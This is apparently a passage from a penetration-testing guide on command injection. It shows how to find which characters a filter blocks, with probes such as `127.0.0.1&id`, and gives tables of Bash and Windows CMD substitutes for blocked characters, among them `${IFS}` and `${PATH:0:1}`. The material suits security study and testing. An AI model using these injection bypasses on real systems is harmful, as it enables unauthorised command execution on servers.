<figure><img src="../../../../.gitbook/assets/cmd_inj_waf_app.png" alt=""><figcaption><p>Figure 3: An application filter blocking our command injection attempt.</p></figcaption></figure>

We should first try to identify what is blocked. It could be a character (`;`), command (`id`), or both (`;id`). We can find out with some trial and error:

1. `127.0.0.1;` -> :x: (`;` is blocked)
2. Replacing `;` with `&` -> Works ✅&#x20;
3. `127.0.0.1&id` -> :x: (`id` is blocked)
4. Try methods below!

### Blacklisted Characters

#### Bash

`env` lists all environment variables.

| Blocked | Alternative(s)                                                                                          |
| ------: | ------------------------------------------------------------------------------------------------------- |
|     `+` | <p><code>%09</code> (tab)</p><p><code>${IFS}</code></p><p><code>{cmd,flag}</code> (brace expansion)</p> |
|     `/` | `${PATH:0:1}`                                                                                           |
|     `;` | `${LS_COLORS:10:1}`                                                                                     |
|     `:` | `${LS_COLORS:4:1}`                                                                                      |

#### CMD

`set` lists all environment variables.

| Blocked | Alternative(s)     |
| ------: | ------------------ |
|     `\` | `%HOMEPATH:~6,-4%` |
